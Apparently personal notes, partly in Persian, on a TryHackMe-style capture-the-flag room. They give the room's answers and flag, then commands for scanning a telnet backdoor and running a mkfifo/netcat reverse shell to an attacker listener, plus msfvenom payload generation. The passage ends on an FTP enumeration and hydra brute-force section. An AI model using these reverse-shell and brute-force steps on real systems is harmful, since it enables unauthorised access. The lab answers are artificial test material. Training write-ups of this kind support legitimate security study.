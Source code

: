 	5. *سوال پنجم*
		1. What you think this port cloud be used for? `a backdoor`
	6. *سوال ششم*
		1. this backdoor belong to? gathering possible username
	7. *سوال هفتم*
		1. Run ping on telnet via backdoor and Listening communication in Kali machine `Y`
	8. *سوال هشتم*
		1. what word does generate payload start with?  `mkfifo`
			1. ![[Pasted image 20240713204538.png]]
	9. *سوال نهم*
		1. command for listening port we selected in our payload? `nc -lnvp 444`
			1. ![[Pasted image 20240713204418.png]]
	10. *سوال دهم*
		1. Whats content of flag.txt? `THM{y0u_g0t_th3_t3ln3t_fl4g}`
			1. ![[Pasted image 20240713204241.png]]
-----
```sh Terminal 1
nmap -sS -sV -O 10.10.5.166
nmap -sS -sV -O -p- 10.10.5.166
-----
telnet 10.10.5.166 8012
telnet> .HELP
telnet> .RUN ping 10.8.64.134 -c 1 #10.8.64.134 is 'tun0' IP
"now run payload to get accessing to listening terminal on 444"
telnet> .RUN mkfifo /tmp/msnht; nc 10.8.64.134 444 0</tmp/msnht | /bin/sh >/tmp/msnht 2>&1; rm /tmp/msnht
```
----
```sh Terminal 2
ifconfig #afte telnet connected, "tun0" now be added to network interfaces
"After Telnet Established in Terminal 1 start tcpdump Listening"
tcpdump ip proto \\icmp -i tun0
msfvenom -l payloads | grep netcat #list all payloads for netcat
msfvenom -p cmd/unix/reverse_netcat LHOST=10.8.64.134 LPORT=444 #Generate Payload for netcat on Port 444
nc -lnvp 444
"Now Netcat Listening to 444 tcp port" #Wait for run payload on target
whoami
"After Payload running on Target machine, below commands run in target machine"
#root
ls
#flag.txt
```
### FTP Exploitation - E55
#### Definition & Instruction
##### What is FTP(File Transfer Protocol)?
- `FTP(File Transfer Protocol) - TCP/21`
- از پروتکل FTP(File Transfer Protocol) برای انتقال فایل در بستر Network و بصورت ریموت استفاده میشود. پروتکل FTP یک پروتکل `Client/Server` است.
- برای ارسال داده در FTP، کلاینت ابتدا کانکشنی را به سمت سرور برقرار میکند، حال سرور با بررسی Credential کلاینت و در صورت صحیح بودن Login Credential ارتباط سرور و کلاینت برقرار میشود و به اصطلاح Session مابین کلاینت و سرور تشکیل میشود.
- حال تا هنگامیکه Session بین کلاینت و سرور باز باشد، کلاینت میتواند FTP Commands هایی را بر روی سرور اجرا کند.
##### FTP Enumeration
برای کسب اطلاعات(Enumeration) از پورت 21 که مربوط به FTP است، میتوانیم از اسکنر Nmap استفاده کنیم.
	![[Pasted image 20240713160034.png]]
همچنین میدانیم برای متصل شدن به یک FTP Server در ترمینال میتوانیم از کامند زیر استفاده کنیم >>
- `ftp 192.168.110.20`
##### FTP Exploit with `hydra` in Bruteforce 